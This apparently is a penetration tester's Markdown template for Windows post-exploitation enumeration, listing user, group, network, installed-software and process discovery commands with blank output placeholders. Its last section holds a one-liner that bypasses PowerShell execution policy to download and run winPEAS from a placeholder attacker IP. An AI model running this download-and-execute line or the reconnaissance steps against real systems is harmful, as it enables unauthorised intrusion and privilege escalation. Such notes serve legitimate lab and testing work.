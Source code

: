 # Windows

## System Information
### Username and Hostname
```powershell
whoami
```
```powershell
<insert hostname\username here>
```

### Group memberships of the current user
```powershell
whoami /groups
```
```powershell
<insert output here>
```

### Existing users and groups
- **Enumerating Users**
    ```batch
    net user
    ```
    ```batch
    <insert output here>
    ```
    ```powershell
    Get-LocalUser
    ```
    ```batch
    <insert output here>
    ```
- **Enumerating Groups**
    ```batch
    net localgroup
    ```
    ```batch
    <insert output here>
    ```
    ```powershell
    Get-LocalGroup
    ```
    ```powershell
    <insert output here>
    ```
    ```powershell
    Get-LocalGroupMember $GROUP
    ```
    ```powershell
    <insert output here>
    ```

### Operating system, version and architecture
- **System Information**
    ```batch
    systeminfo
    ```
    ```batch
    <insert output here>
    ```
- **Network Information**
    ```batch
    ipconfig /all
    ```
    ```batch
    <insert output here>
    ```
    ```batch
    route print
    ```
    ```batch
    <insert output here>
    ```
        ```batch
    netstat -ano
    ```
    ```batch
    <insert output here>
    ```
- **Installed Applications and Running Services**
    ```powershell
    Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
    ```
    ```powershell
    <insert output here>
    ```
    ```powershell
    Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
    ```
    ```powershell
    <insert output here>
    ```
    ```batch
    dir C:\Program Files
    ```
    ```batch
    <insert output here>
    ```
    ```batch
    dir C:\Program Files (x86)
    ```
    ```batch
    <insert output here>
    ```
    ```batch
    dir %USERPROFILE%\Downloads
    ```
    ```batch
    <insert output here>
    ```
    ```powershell
    Get-Process
    ```
    ```powershell
    <insert output here>
    ```

## Winpeas
```powershell
powershell -exec bypass -c "iex ((New-Object System.Net.WebClient).DownloadString('http://$IP_ADDRESS/winpeas.ps1'))"
```
```powershell
<insert winpeas output here>
```
